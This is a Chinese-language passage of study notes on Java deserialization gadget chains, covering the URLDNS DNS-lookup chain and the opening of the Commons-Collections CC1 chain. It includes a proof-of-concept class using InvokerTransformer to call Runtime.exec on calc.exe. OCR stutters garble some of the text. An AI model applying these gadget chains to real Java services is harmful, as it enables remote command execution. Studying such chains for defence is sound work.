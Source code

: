 这⾥里里 InetAddress.getByName(host) 的作⽤用是根据主机名，获取其IP地址，在网络上其实就是⼀一次
DNS查询。到这里就不不必要再跟了了。

~~~
整个 URLDNS 的Gadget其实清晰⼜又简单：
1. HashMap->readObject()
2. HashMap->hash()
3. URL->hashCode()
4. URLStreamHandler->hashCode()
5. URLStreamHandler->getHostAddress()
6. InetAddress->getByName()
~~~

要构造这个Gadget，只需要初始化⼀一个 java.net.URL 对象，作为 key 放在 java.util.HashMap中；然后，设置这个 URL 对象的 hashCode 为初始值 -1 ，这样反序列列化时将会重新计算其 hashCode ，才能触发到后⾯面的DNS请求，否则不不会调⽤用 URL->hashCode() 。



#### CC链（Common-Collections）

##### 简述

示例代码

~~~java
import org.apache.commons.collections.Transformer;
import org.apache.commons.collections.functors.ChainedTransformer;
import org.apache.commons.collections.functors.ConstantTransformer;
import org.apache.commons.collections.functors.InvokerTransformer;
import org.apache.commons.collections.map.TransformedMap;
import java.util.HashMap;
import java.util.Map;
public class CommonCollections1 {
    public static void main(String[] args) throws Exception {
        Transformer[] transformers = new Transformer[]{
                new ConstantTransformer(Runtime.getRuntime()),
                new InvokerTransformer("exec", new Class[]{String.class},
                        new Object[]
                                {"C:\\Windows\\System32\\calc.exe"}),
        };
        Transformer transformerChain = new
                ChainedTransformer(transformers);
        Map innerMap = new HashMap();
        Map outerMap = TransformedMap.decorate(innerMap, null,
                transformerChain);
        outerMap.put("test", "xxxx");
    }
}
~~~

![image.png](https://img14.360buyimg.com/ddimg/jfs/t1/180351/32/38181/74496/6523b683Fab21a83a/243e069040cc3eae.jpg)

TransformedMap⽤于对Java标准数据结构Map做⼀个修饰，被修饰过的Map在添加新的元素时，将可
以执⾏⼀个回调。我们通过下⾯这⾏代码对innerMap进⾏修饰，传出的outerMap即是修饰后的Map：
